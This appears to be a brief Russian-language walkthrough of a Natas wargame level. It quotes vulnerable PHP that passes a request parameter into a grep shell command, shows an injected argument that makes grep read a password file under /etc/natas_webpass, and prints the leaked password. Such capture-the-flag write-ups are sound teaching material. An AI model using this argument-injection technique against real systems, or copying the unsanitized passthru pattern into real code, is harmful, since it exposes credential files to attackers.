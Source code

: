 аналогично прошлому, но есть проверка на легальность символов в строке
```php
$key = "";      
if(array_key_exists("needle", $_REQUEST)) {    
	$key = $_REQUEST["needle"];}      
if($key != "") {
	if(preg_match('/[;|&]/',$key)) {           print "Input contains an illegal character!";
	} 
	else {        
		passthru("grep -i $key dictionary.txt");}
		}   
?>
```
подсовываем строку:
```bash
	-e 'a' password.txt
```
что в сумме дает 
```bash
grep -i -e 'a' /etc/natas_webpass/natas11 dictionary.txt
```
как итог мы ищем символ 'a' в dictionary, а также в нужном нам файле
получаем следующий вывод
```txt
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk